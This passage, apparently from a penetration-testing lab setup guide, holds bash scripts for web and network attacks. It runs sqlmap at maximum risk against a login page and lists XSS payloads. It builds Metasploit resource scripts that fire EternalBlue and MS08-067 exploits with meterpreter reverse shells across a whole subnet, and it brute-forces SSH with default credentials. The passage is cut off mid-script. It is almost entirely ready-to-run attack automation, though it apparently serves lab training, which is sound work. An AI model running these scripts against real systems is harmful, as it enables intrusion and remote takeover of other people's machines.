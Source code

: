 ```bash
# SQL injection testing
echo "[+] Testing for SQL injection..."
sqlmap -u "$TARGET_URL/login.php" --forms --batch --risk=3 --level=5 -o $OUTPUT_DIR/sqlmap-results.txt

# XSS testing
echo "[+] Testing for XSS..."
echo "Manual XSS payloads to test:" > $OUTPUT_DIR/xss-payloads.txt
echo "<script>alert('XSS')</script>" >> $OUTPUT_DIR/xss-payloads.txt
echo "<img src=x onerror=alert('XSS')>" >> $OUTPUT_DIR/xss-payloads.txt
echo "javascript:alert('XSS')" >> $OUTPUT_DIR/xss-payloads.txt

echo "[+] Web application attacks completed. Results saved to $OUTPUT_DIR"
EOF

chmod +x /opt/webapp-attacks.sh
```

### 4. Metasploit Configuration

#### Custom Metasploit Resource Scripts
```bash
# Create directory for custom Metasploit scripts
sudo mkdir -p /opt/metasploit-scripts

# Windows exploitation resource script
sudo tee /opt/metasploit-scripts/windows-exploit.rc > /dev/null <<'EOF'
# Windows exploitation automation
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.0.2.0/24
run

use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 10.0.2.0/24
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.2.0/24
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.15
run

use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.0.2.0/24
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
run
EOF

# Linux exploitation resource script
sudo tee /opt/metasploit-scripts/linux-exploit.rc > /dev/null <<'EOF'
# Linux exploitation automation
use auxiliary/scanner/ssh/ssh_version
set RHOSTS 10.0.2.0/24
run

use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.2.0/24
set USERNAME vulnerable
set PASSWORD password
run

use exploit/linux/ssh/sshexec
```